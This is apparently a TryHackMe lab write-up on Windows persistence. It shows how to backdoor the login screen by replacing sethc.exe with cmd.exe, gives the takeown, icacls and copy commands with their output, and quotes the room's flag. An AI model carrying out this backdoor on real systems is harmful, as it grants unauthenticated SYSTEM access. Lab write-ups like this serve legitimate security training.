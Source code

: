 ![sticky keys](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/27e711818bea549ace3cf85279f339c8.png)

After pressing `SHIFT` 5 times, Windows will execute the binary in `C:\Windows\System32\sethc.exe`. If we are able to replace such binary for a payload of our preference, we can then trigger it with the shortcut. Interestingly, we can even do this from the login screen before inputting any credentials.

A straightforward way to backdoor the login screen consists of replacing `sethc.exe` with a copy of `cmd.exe`. That way, we can spawn a console using the sticky keys shortcut, even from the logging screen.

To overwrite `sethc.exe`, we first need to take ownership of the file and grant our current user permission to modify it. Only then will we be able to replace it with a copy of `cmd.exe`. We can do so with the following commands:


```shell-session
C:\> takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
        1 file(s) copied.
```

After doing so, lock your session from the start menu:

![lock session](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2faf2bec5763297beb7c921858900c57.png)

You should now be able to press `SHIFT` five times to access a terminal with SYSTEM privileges directly from the login screen:

![sethc backdoor](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/5062148957ec1d70dccd080bdca93ddf.png)

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)


From your newly obtained terminal, execute `C:\flags\flag14.exe` to get your flag!


Once we do all steps, we get our cmd:

![](../images/Pasted%20image%2020250516114751.png)

Let's read our flag:

![](../images/Pasted%20image%2020250516114855.png)

```
THM{BREAKING_THROUGH_LOGIN}
```
